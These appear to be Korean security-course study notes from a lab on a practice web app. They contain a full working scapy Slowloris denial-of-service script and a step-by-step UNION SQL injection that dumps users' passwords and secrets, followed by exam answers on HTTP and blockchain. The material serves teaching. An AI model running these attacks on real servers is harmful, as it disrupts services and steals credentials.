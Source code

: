 ```yaml
---
date: 2019-12-11
title: "Security7"
cover: "https://unsplash.it/400/300/?random?BoldMage"
categories:
  - Security
tags:
  - computer science
  - service
---
```




# IT서비스와 보안

## 1.  네트워크 보안



### - scapy

- 파이썬으로 작성된 패킷 조작 도구
- 패킷 디코딩, 전송, 캡처, 수정 등 다양한 기능을 제공



### - 참고

- ARP Spoofing ⇒ https://myanjini.tistory.com/76
- MTM(Man in The Middle) attack ⇒ https://myanjini.tistory.com/77
- Port Scanning ⇒ https://myanjini.tistory.com/75
- scapy 사용법 ⇒ https://myanjini.tistory.com/78
- scapy를 이용한 3-way handshaking ⇒ https://myanjini.tistory.com/79
- TCP SYN Flooding ⇒ https://myanjini.tistory.com/80



### - Slowloris Attack

- HTTP 요청 헤더와 본문이 개행문자로 구분되는 특징을  이용한 공격
- 헤더의 끝을 나타내는 개행문자를 전달하지 않아 서버가  연결을 유지하도록 하는 공격



- kali#2에서 slowloris.py 파일을 생성

~~~

#! /usr/bin/env python

import sys
import time
from scapy.all import *

def slowloris (target, num) :
    print "start connect > {}".format(target)
    syn = []
    for i in range(num) :
        syn.append(IP(dst=target)/TCP(sport=RandNum(1024,65535),dport=80,flags='S'))
    syn_ack = sr(syn, verbose=0)[0]

    ack = []
    for sa in syn_ack :
        payload = "GET /{} HTTP/1.1\r\n".format(str(RandNum(1,num))) +\
        "Host: {}\r\n".format(target) +\
        "User-Agent: Mozilla/4.0\r\n" +\
        "Content-Length: 42\r\n"

        ack.append(IP(dst=target)/TCP(sport=sa[1].dport,dport=80,flags="A",seq=sa[1].ack,ack=sa[1].seq+1)/payload)
    
    answer = sr(ack, verbose=0)[0]
    print "{} connection success!\t Fail: {}".format(len(answer), num-len(answer))
    print "Sending data \"X-a: b\\r\\n\".."

    count = 1
    while True :
        print "{} time sending".format(count)
        ack = []
        for ans in answer :
            ack.append(IP(dst=target)/TCP(sport=ans[1].dport,dport=80,flags="PA",seq=ans[1].ack,ack=ans[1].seq)/"X-a: b\r\n")
        answer = sr(ack, inter=0.5, verbose=0)[0]
        time.sleep(10)
        count += 1

if __name__ == "__main__" :
    if len(sys.argv) < 3 :
        print "Usage: {} <target> <number of connection>".format(sys.argv[0])
        sys.exit(1)
    slowloris(sys.argv[1], int(sys.argv[2]))
~~~



### - 영화조회 서비스 SQL Injection

~~~
[화면]
제목 : man

[전달 ← 요청 파라미터를 통해서 전달]
sqli_1.php?title=man

[사용 → 쿼리문을 만드는데 사용될 것으로 유추]
select * from movies where title = '%man%' 


##1 입력값이 전달 및 사용 과정에서 아무런 조작이 발생하지 않는지 궁금???
[화면]
제목 : man'

[전달 ← 요청 파라미터를 통해서 전달]
sqli_1.php?title=man'

[사용 → 쿼리문을 만드는데 사용될 것으로 유추]
select * from movies where title = '%man'%' 
⇒ Error: You have an error in your SQL syntax; check the manual that corresponds to your MySQL server version for the right syntax to use near '%'' at line 1
→ 백엔드 DB가 MySQL라는 정보와 화면에서 입력한 값은 그대로 쿼리 생성 및 실행에 사용된다.

##2 정상적인 쿼리가 반환하는 컬럼의 개수를 확인
select * from movies where title = '%man' order by 1 -- %' ← 제목이 man으로 끝나는 영화를 조회해서 첫번째 컬럼으로 정렬

select * from movies where title = '%man' order by 2 -- %'
			:
select * from movies where title = '%man' order by 8 -- %'
⇒ Error: Unknown column '8' in 'order clause'
→ 정상적인 쿼리가 반환하는 컬럼의 개수는 7개이다.

##3 정상적인 쿼리의 실행 결과에 공격자가 원하는 쿼리의 실행 결과를 결합해서 화면에 출력
select * from movies where title = '%man' UNION select 1,2,3,4,5,6,7 -- %'

⇒ 파란색은 정상적인 쿼리(man으로 끝나는 제목의 영화)의 실행결과
⇒ 붉은색은 공격자가 궁금해하는 쿼리의 실행결과
→ 화면 출력을 위해서는 쿼리 실행 결과에서 2, 3, 4, 5번째 컬럼의 정보만 사용

##4 MySQL의 시스템 테이블을 이용해서 사용자 정의 테이블의 정보(이름)을 조회
select * from movies where title = '%man' UNION select 1,table_schema,table_name,4,5,6,7 from information_schema.tables -- %'
→ https://dev.mysql.com/doc/refman/8.0/en/tables-table.html 참조

##5 테이블 이름이 users인 테이블이 가지고 있는 컬럼 정보를 조회
select * from movies where title = '%man' UNION select 1,table_name,column_name,4,5,6,7 from information_schema.columns where table_name = 'users' -- %'
→ https://dev.mysql.com/doc/refman/8.0/en/columns-table.html 참조

##6 users 테이블 id, login, password, email, secret 컬럼의 정보를 조회
select * from movies where title = '%man' UNION select 1,id,login,password,concat(email, " : ", secret),6,7 from users -- %'

##7 패스워드 정보가 안전하게 저장되어 있는지 확인
6885858486f31043e5839c735d99457f045affd0
https://crackstation.net/
~~~

### - 문제 풀이

1.  HTTP 요청 방식 중 PUT은 본문을 필요로 한다.

2. 응답 코드 4XX는  Client Side Error

   - 영구적 리다이렉트되는 경우 도메인 주소가 바뀐다(ex. 회사의 도메인이 바뀜)
   - 임시적 리다이렉트되는 경우 서버 폭주를 우려해서 임시사이트를 제공 할 때(한시적 사용)

3. Content-Length 헤더 값을 크게 주고 본문을 천천히 줌 => RUDY ATTACK

4. GET GET POST POST 

5. 302 moved tmp / 리다이렉트

6. HTTP의  헤더를 조작 슬로로리스 공격

7. HTTP 기본 인증 방식 Base64 인코딩/디코딩

8. HTTP 2xx : 성공

9. HEAD  : 자원의 상태만 요청

10. 정형화되지 않은 자료를 서버로 전달할 때 사용하는 Content-Type : multipart/form-data

11. 블록 생성 독점을 막기위한 도구 : 난이도

12. P2P 네트워크의 악의적 사용자를 막기위한 도구 : 전자서명, 장부공유, 블록해쉬

13. 비트코인의 블록헤더

14. 블록에 포함된 거래의 요약 정보 : 머클루트

15. 퍼블릭 블록체인의 특징 : 마이닝 보수가 필요 함

16. 해쉬의 특징 : 유일성, 단방향성, 충돌회피

17. 블록체인의 특징 : 거래 기록의 작성 시점을 객곽적으로 알 수 있음

18. 블록헤더 중 유일하게 변경 할 수 있는 값 : nonce

19. 작업증명 알고리즘의 에너지 문제 해결 : Pos

20. 머클트리

21. 서명 = 송신자의 개인키 암호화, 송신자의 공개키로 복호화

22. 관리자 그룹 : administrators

23. 3way - Handshaking SYN > SYN+ACK > ACK

24. Linux 권한설정

25. 패스워드 관리규칙

26. Linux shadow 파일

27. 윈도우 시스템 관리자 그룹 net localgroup administrators

28. 보안의 3요소 : 기밀성, 무결성, 가용성

29. 해쉬 = 무결성 보장

30. 지식기반 인증 : 내가 알고 있는것, 패스워드

    소유기반 인증 : 매체, 출입증 카드

    특징기반 인증 : 지문, 홍채, 서체, 정맥